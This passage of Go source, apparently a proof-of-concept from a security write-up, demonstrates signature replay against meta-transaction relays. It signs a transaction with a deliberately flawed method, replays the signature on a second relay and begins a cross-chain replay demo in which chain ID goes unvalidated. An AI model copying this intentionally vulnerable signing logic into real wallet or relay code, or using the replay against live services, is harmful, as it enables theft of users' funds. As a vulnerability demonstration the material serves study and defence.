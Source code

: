 ```go
    }
    
    relay2 := &VulnerableRelay{
        name:     "TestRelay",
        version:  "1.0", 
        chainID:  1,
        contract: common.HexToAddress("0x2222222222222222222222222222222222222222"),
    }
    
    // Create a meta-transaction
    tx := MetaTransaction{
        From:  userAddress,
        To:    common.HexToAddress("0x3333333333333333333333333333333333333333"),
        Value: big.NewInt(1000000000000000000), // 1 ETH
        Data:  []byte("transfer(address,uint256)"),
        Nonce: big.NewInt(1),
    }
    
    fmt.Printf("User Address: %s\n", userAddress.Hex())
    fmt.Printf("Transaction: %+v\n", tx)
    
    // Sign transaction for relay1 using vulnerable method
    signature := signTransactionVulnerable(tx, privateKey)
    fmt.Printf("Signature: %x\n", signature)
    
    // Verify signature on relay1 (should succeed)
    valid1, err := relay1.VerifySignature(tx, signature)
    if err != nil {
        log.Printf("Relay1 verification error: %v", err)
    }
    fmt.Printf("Relay1 signature valid: %t\n", valid1)
    
    // ATTACK: Replay same signature on relay2 (should fail but succeeds)
    valid2, err := relay2.VerifySignature(tx, signature)
    if err != nil {
        log.Printf("Relay2 verification error: %v", err)
    }
    fmt.Printf("Relay2 signature valid: %t\n", valid2)
    
    if valid1 && valid2 {
        fmt.Println("\n🚨 VULNERABILITY CONFIRMED: Signature replay successful!")
        fmt.Println("The same signature is valid on both relay services.")
        fmt.Println("This allows cross-domain replay attacks.")
    }
    
    // Demonstrate cross-chain replay
    fmt.Println("\n=== Cross-Chain Replay Attack ===")
    
    // Create relays for different chains
    mainnetRelay := &VulnerableRelay{
        name:     "Bridge",
        version:  "1.0",
        chainID:  1, // Mainnet
        contract: common.HexToAddress("0x4444444444444444444444444444444444444444"),
    }
    
    testnetRelay := &VulnerableRelay{
        name:     "Bridge", 
        version:  "1.0",
        chainID:  5, // Goerli testnet - but not validated!
        contract: common.HexToAddress("0x4444444444444444444444444444444444444444"),
    }
    
```